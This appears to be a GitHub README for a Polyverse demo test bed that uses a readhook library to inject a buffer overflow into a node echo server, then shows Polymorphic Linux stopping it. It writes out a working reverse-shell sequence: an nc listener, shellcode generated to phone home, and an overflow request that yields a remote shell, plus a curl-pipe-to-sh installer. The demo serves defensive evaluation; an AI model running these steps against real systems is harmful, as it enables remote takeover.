 # readhook-node-echo-server
Test bed for using readhook to hook node-echo-server application.

## Running
```
docker run -d --rm --name echo -p 8080:8080 polyverse/readhook-node-echo-server
```

## Stopping
```
docker kill echo
```

## Running interactively
```
docker run -it --rm --name echo -p 8080:8080 polyverse/readhook-node-echo-server /bin/sh
```

```
node echo-server.js
```

## Polyverse Polymorphic Linux

### 1: Setup Listener for Reverse Shell

#### 1.1: Shell-1: Start a listener for the remote shell to connect to
```
nc -kl 5555
```

### 2: Start Server with Readhook

#### 2.1: Shell-2: Start the container with an interactive shell
```
docker run -it --rm --name echo -p 8080:8080 polyverse/readhook-node-echo-server /bin/sh
```

#### 2.2: Shell-2: Run the echo-server with readhook in front of libc
```
LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" node /src/echo-server.js
```

#### 2.3: Shell-3: Test that the echo-server is running as expected
```
curl localhost:8080/echo-this-line-of-text
```

### 3: Generate Shell-Code

#### 3.1: Shell-3: Generate the shell-code needed to "phone-home" to the listener on Shell-1
```
export shellCode=$(curl localhost:8080/xyzzxMAKELOADdocker.for.mac.localhost:5555)
```

#### 3.2: Shell-3: Send the shell-code to the OVERFLOW endpoint to check that it works.
```
curl localhost:8080/$shellCode
```

#### 3.3: Shell-1: Check that the overflow resulted in a remote shell
```
ls && whoami && exit
```

### 4: Install Polyverse Polymorphic Linux

#### 4.1: Shell-2: Add curl and Polyverse Distros
```
curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
```

#### 4.2: Shell-2: Update packages with Polymorphic Linux packages
```
sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available
```

#### 4.3: Shell-2: Re-run the echo-server with basehook.so (only)
```
LD_PRELOAD=/tmp/basehook.so node /src/echo-server.js
```

#### 4.4: Shell-3: Test the shellCode with Polymorphic Linux
```
curl localhost:8080/$shellCode
```

#### 4.5: Shell 1: Confirm that nobody phoned-home to the listener

#### 4.6: Shell 2: Confirm that node terminated abnormally

